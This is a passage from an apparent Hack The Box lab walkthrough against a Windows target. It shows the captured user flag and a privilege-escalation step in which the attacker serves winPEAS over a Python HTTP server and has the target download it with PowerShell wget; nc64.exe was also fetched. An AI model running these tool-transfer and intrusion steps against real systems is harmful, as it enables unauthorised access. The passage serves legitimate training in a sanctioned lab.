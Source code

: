 	C:\Users\sql_svc\Desktop>dir
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is 9565-0B4F
	
	 Directory of C:\Users\sql_svc\Desktop
	
	01/20/2020  06:42 AM    <DIR>          .
	01/20/2020  06:42 AM    <DIR>          ..
	02/25/2020  07:37 AM                32 user.txt
	               1 File(s)             32 bytes
	               2 Dir(s)  10,723,078,144 bytes free
	
	C:\Users\sql_svc\Desktop>more user.txt
	more user.txt
	3e7b102e78218e935bf3f4951fec21a3

**User flag exfiltrated**: `3e7b102e78218e935bf3f4951fec21a3`

## Windows Privilege Escalation - Escalating to Admin role

For privilege escalation, we are going to use a tool called `winPEAS`, which can automate a big part of the enumeration process in the target system.

WinPEAS can be downloaded from [here](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe).
We will transfer it to the target system by using once more the Python HTTP server:
`python3 -m http.server 80` (or port `81` if `80` is already taken and being used by other services and we don't want to bother looking for them and killing them) 

On the target machine, we will execute the `wget` command in order to download the program from our system. The file will be downloaded in the directory from which the `wget` command was run. We will use powershell for all our commands:
`powershell wget http://10.10.14.118:81/winPEASx64.exe -outfile winPEASx64.exe`

To verify that the target machine was able to download the binary, we check back at the terminal running the http server:

	─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-rolbarnya2]─[~/Downloads]
	└──╼ [★]$ sudo python3 -m http.server 81
	Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
	10.129.95.187 - - [29/Sep/2024 07:43:45] "GET /nc64.exe HTTP/1.1" 200 -
	10.129.95.187 - - [29/Sep/2024 08:04:58] "GET /winPEASx64.exe HTTP/1.1" 200 -

And  we can check the target's Downloads folder:

	C:\Users\sql_svc\Downloads>dir 
	dir
	 Volume in drive C has no label.
	 Volume Serial Number is 9565-0B4F
	
	 Directory of C:\Users\sql_svc\Downloads
	
	09/29/2024  06:09 AM    <DIR>          .
	09/29/2024  06:09 AM    <DIR>          ..
	09/29/2024  05:43 AM            45,272 nc64.exe
	09/29/2024  06:09 AM                 0 winPEASx64.exe
	               2 File(s)         45,272 bytes
	               2 Dir(s)  10,721,767,424 bytes free

